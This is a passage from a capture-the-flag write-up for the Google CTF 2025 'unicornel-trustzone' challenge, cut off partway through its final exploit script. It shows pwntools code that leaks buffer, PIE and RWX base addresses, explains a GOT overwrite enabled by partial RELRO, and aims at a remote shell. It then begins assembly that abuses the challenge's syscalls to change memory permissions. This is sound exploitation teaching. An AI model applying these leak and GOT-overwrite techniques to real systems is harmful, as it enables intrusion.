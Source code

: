 ```python
p.sendline(b'')
p.recvuntil(b'DATA_START')
p.send(header)
p.recvuntil(b'CODE_START')
p.send(code)
p.recvuntil('pid 0\n')

leaked_buf_addr = int(p.recvline().strip().decode())
print(f'{hex(leaked_buf_addr) = }')
leaked_pie_base = int(p.recvline().strip().decode())
print(f'{hex(leaked_pie_base) = }')
leaked_rwx_base = int(p.recvline().strip().decode())
print(f'{hex(leaked_rwx_base) = }')
```
![Leaked addresses](./leaked.png)

If you remember the binary securities implemented in the beginning, we observed that relocation is set to Partial Relocation Read-Only. That means that this program is susceptible to GOT overwrite. So we can easily overwrite the GOT entry by mapping an address to the calculated GOT position from the known PIE base address. 
Let's try to find the GOT address of write function so that we can gain remote shell access by running `unicornel_write`.

`readelf -r chal | grep write` gives:
{{ img(id="/writeups/GoogleCTF2025/unicornel-trustzone/write-got.png", alt="Alt Text", class="textCenter") }}

The final exploit script is 

```python
from pwn import *
import unicorn 
import os 

context.arch = "amd64"
#context.log_level = 'debug'

code = asm(
r'''
    .intel_syntax noprefix

    /* create shared buffer*/
    mov rbx, 0x1000
    mov rax, 3
    int 0x80 

    /* Call create_trustzone to change perms */
    mov rbx, 0x4000
    lea rcx, [rip + memprot_x86_64]
    mov rax, 8
    int 0x80
    
    mov rbx, 0x4000
    mov rcx, 0x1000
    mov rdx, 0x7
    lea rdi, [rip + password]
    mov rax, 10
    int 0x80

    /* overwrite trustzone to validate_handle and store return pointer at r12 and write */
```